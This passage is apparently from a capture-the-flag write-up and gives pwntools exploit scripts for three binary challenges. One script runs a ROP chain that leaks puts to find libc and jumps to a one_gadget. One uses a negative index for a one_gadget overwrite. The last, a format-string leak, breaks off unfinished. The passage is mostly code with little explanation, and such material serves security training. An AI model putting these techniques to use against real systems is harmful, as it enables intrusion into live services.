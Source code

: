```lus=py
input()
main = 0x4006fb
puts = 0x400720
pop_rdi = 0x4007a3
put_got = 0x601018
w = 0x00601800
one = 0x10a38c
r.recvuntil('?\n')
payload = b'a'*0x70
payload = flat([payload,w,pop_rdi, put_got, puts])
r.sendline(payload)
puts_libc = u64(r.recv().strip()+b'\x00\x00')
print(f"put: {hex(puts_libc)}")
libc = puts_libc -  0x809c0
print(f"libc: {hex(libc)}")
payload = b'a'*0x70
payload = flat([payload,w,libc+one])
r.sendline(payload)

r.interactive()
```
### 🏫 Morty school
```lus=py
from pwn import *

#r = remote('localhost', 4004)
r = remote('60.250.197.227', 10003)
context.arch="amd64"

input()
r.recvuntil('information:')
re = r.recvline().strip()
puts = int(re, 16)
libc = puts - 0x0809c0
print(f"libc: {hex(libc)}")
r.recvuntil('teach?')

pay = b'-87669'
r.sendline(pay)
sleep(1)

one=0x10a38c+libc
payload = flat([one]*4)
r.sendline(payload)

r.interactive()
```
### 🔮Death crystal
```lus=py
from pwn import *

context.arch="amd64"
r = remote('60.250.197.227', 10004)
input()

off = 0x201540
pay = '%d'*4+'%lx'*7+'|%lx\n'
pay = pay.ljust(39, 'a')
r.sendline(pay)
print(r.recvuntil('|'))
pie = r.recvuntil('\n', drop=True).strip()
#pie = u64(pie.ljust(8,b'\x00'))
```